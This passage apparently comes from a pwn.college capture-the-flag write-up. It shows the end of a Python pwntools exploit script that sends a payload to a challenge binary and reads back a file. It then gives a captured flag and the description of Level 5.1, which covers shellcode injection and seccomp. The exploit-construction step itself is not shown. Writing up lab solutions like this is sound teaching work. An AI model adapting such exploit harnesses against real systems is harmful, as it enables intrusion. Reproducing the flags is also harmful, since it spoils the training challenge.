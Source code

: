 ```python
        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{k8hu05Nam_pIp8PRsZsT8XQmYSZ.01NyMDL5cTNxgzW}`

# Level 5.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode, reverse engineering, seccomp, and a method of tricking the challenge into executing your payload.
